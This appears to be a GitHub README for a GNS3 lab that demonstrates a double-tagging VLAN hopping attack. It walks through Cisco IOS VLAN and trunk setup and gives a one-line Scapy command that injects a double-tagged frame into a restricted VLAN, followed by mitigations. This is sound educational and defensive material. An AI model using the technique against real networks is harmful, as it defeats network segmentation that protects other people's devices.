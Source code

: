 # VLAN Hopping: Double Tagging
Double tagging is a Layer 2 network attack technique that exploits the behavior of 802.1Q trunk ports and native VLAN handling on switches. In this attack, a threat actor crafts Ethernet frames with two VLAN tags: an outer tag that matches the native VLAN (commonly VLAN 1) and an inner tag for the target VLAN they wish to access. When the packet is sent from an access port belonging to the native VLAN, the first switch removes the outer tag and forwards the frame onto the trunk. The second switch, upon receiving the now-single-tagged frame, interprets the remaining inner tag and forwards it to the corresponding VLAN. This allows the attacker to send traffic into VLANs they shouldn't have access to, even though their physical port is not assigned to that VLAN. Double tagging is difficult to detect because return traffic typically can't follow the same path back, making it a one-way attack, useful primarily for injecting packets into restricted VLANs.

> This lab was inspired by *Practical IoT Hacking* (O'Reilly), Chapter 4: **Network Assessments**, Section *"Hopping into the IoT Network"*.

## Lab Topology
![Lab Topo](assets/double-tagging-topo.png)

## Initial Setup
### Switch Port Layout
| Switch   | Port    | Connected Device | VLAN    | Port Mode             |
|----------|---------|------------------|---------|-----------------------|
| SWITCH1  | Et0/0   | SWITCH2          | N/A     | Trunk (native VLAN 1) |
| SWITCH1  | Et0/1   | CAMERA_01        | VLAN 20 | Access                |
| SWITCH1  | Et0/2   | ATTACKER         | VLAN 1  | Access                |
| SWITCH2  | Et0/0   | SWITCH1          | N/A     | Trunk (native VLAN 1) |
| SWITCH2  | Et0/1   | CENTRAL_SERVER   | VLAN 20 | Access                |

### VPCS Static IPv4 Configuration
To keep the lab simple, both **CAMERA_01** and **CENTRAL_SERVER** are implemented using [VPCS](https://docs.gns3.com/docs/emulators/vpcs/) (Virtual PC Simulator) appliances. This provides a lightweight way to simulate basic IoT device connectivity within the network. The following command assigns an IP address and ensures the configuration persists across reboots.
<pre>
  VPCS> ip 192.168.0.x/24
  VPCS> save
</pre>

### Docker Container IPv4 Configuration
The **ATTACKER** machine is a Docker container. The imaged used in this lab is [finchsec/scapy](https://hub.docker.com/r/finchsec/scapy), which gives access to the Scapy program for crafting custom network packets to perform this attack. Configuring IP addresses for Docker appliances in GNS3 is easy as shown below:

**Right-click**, then select `Edit Config` from the context menu.

![Attacker Interfaces](assets/attacker-interfaces.png)

### Cisco IOS
**SWITCH1** and **SWITCH2** are virtual Cisco IOS Layer 2 devices. You can use either the IOSvL2 or IOU L2 GNS3 appliance templates for this lab. They should work as standard switches 'out of the box', no configurations necessary.

## Verify Connectivity
CAMERA_01 should be able to ping CENTRAL_SERVER.

![Camera Ping](assets/camera-server-ping.gif)

ATTACKER should be able to ping both CAMERA_01 and CENTRAL_SERVER.
<pre>
  >>> packet = IP(dst='192.168.0.x')/ICMP()
  >>> sr1(packet).show()
</pre>
![Attacker Ping](assets/attacker-connectivity-verify.gif)

## IOS VLAN Configuration
Create a new VLAN for the IoT devices with an ID of 20. I named it BLUE to match the network topology diagram.
<pre>
  SWITCH1> enable
  SWITCH1# configure terminal
  SWITCH1(config)# vlan 20
  SWITCH1(config-vlan)# name BLUE
  SWITCH1(config-vlan)# exit
  SWITCH1# show vlan brief
  
  VLAN Name                             Status    Ports
  ---- -------------------------------- --------- -------------------------------
  1    default                          active    Et0/0, Et0/1, Et0/2, Et0/3
                                                  Et1/0, Et1/1, Et1/2, Et1/3
                                                  Et2/0, Et2/1, Et2/2, Et2/3
                                                  Et3/0, Et3/1, Et3/2, Et3/3
  20   BLUE                             active
</pre>

Assign BLUE to switchport Et0/1 (CAMERA_01).
<pre>
  SWITCH1# configure terminal
  SWITCH1(config)# interface Et0/1
  SWITCH1(config-if)# switchport mode access
  SWITCH1(config-if)# switchport access vlan 20
  SWITCH1(config-if)# exit
  SWITCH1# show vlan brief
  
  VLAN Name                             Status    Ports
  ---- -------------------------------- --------- -------------------------------
  1    default                          active    Et0/0, Et0/2, Et0/3, Et1/0
                                                  Et1/1, Et1/2, Et1/3, Et2/0
                                                  Et2/1, Et2/2, Et2/3, Et3/0
                                                  Et3/1, Et3/2, Et3/3
  20   BLUE                             active    Et0/1
</pre>

Configure interface Et0/0 as a static trunk using IEEE 802.1Q encapsulation. This protocol is the industry standard for VLAN tagging.
<pre>
  SWITCH1# configure terminal
  SWITCH1(config)# interface Et0/0
  SWITCH1(config-if)# switchport trunk encapsulation dot1q
  SWITCH1(config-if)# switchport mode trunk
  SWITCH1(config-if)# switchport trunk allowed vlan all
  SWITCH1(config-if)# exit
  SWITCH1# show interfaces trunk

  Port        Mode             Encapsulation  Status        Native vlan
  Et0/0       on               802.1q         trunking      1

  Port        Vlans allowed on trunk
  Et0/0       1-4094

  Port        Vlans allowed and active in management domain
  Et0/0       1,20

  Port        Vlans in spanning tree forwarding state and not pruned
  Et0/0       none
</pre>
> Note how the **Native vlan** value is 1 by default.

Repeat these step on SWITCH2 to assign CENTRAL_SERVER to VLAN 20.

## Verify Subnet Segmentation
Assuming the VLAN was configured correctly, CAMERA_01 should still be able to ping CENTRAL_SERVER...

![Camera Ping](assets/camera-server-ping.gif)

<details>
  <summary>
    VLAN Tag Removal Demonstrated...
  </summary>

  > Start a Wireshark capture on the link between SWITCH1 and SWITCH2. Then, initiate another ping from CAMERA_01 to CENTRAL_SERVER. In the `Packet Details` pane, observe that the switch inserts a 4-byte 802.1Q VLAN tag immediately after the Ethernet header, indicating the frame originated from a VLAN 20 access port.
  > 
  > ![Ping VLAN Tag](assets/wireshark-switch1-switch2-annotated.png)
  > 
  > As the packet is forwarded to its destination, SWITCH2 removes the VLAN tag before delivering it to the receiving device.
  >
  > ![Ping VLAN Tag Removed](assets/wireshark-switch2-server.png)
</details>

However, ATTACKER should no longer be able to ping CAMERA_01 or CENTRAL_SERVER.
<pre>
  >>> packet = IP(dst='192.168.0.x')/ICMP()
  >>> sr1(packet).show()
</pre>
![Attacker Ping Fail](assets/attacker-ping-fail.gif)

As can be seen, the ICMP echo requests never reach CENTRAL_SERVER.

![](assets/wireshark-server-segmentation.png)

## Exploit
Craft a double-tagged ICMP packet with Scapy

<pre>
  >>> packet = Ether(dst='ff:ff:ff:ff:ff:ff')/Dot1Q(vlan=1)/Dot1Q(vlan=20)/IP(dst='192.168.0.250')/ICMP()
  >>> sendp(packet, iface="eth0")
  .
  Sent 1 packets.
</pre>

## Mitigations
You can prevent double-tagging attacks by:
- Setting the native VLAN to an unused VLAN
- Forcing all trunks to tag all traffic (i.e., vlan dot1q tag native)
- Avoiding VLAN 1 for any user-access ports
- Shutdown unused ports / sticky mac addresses / port security etc
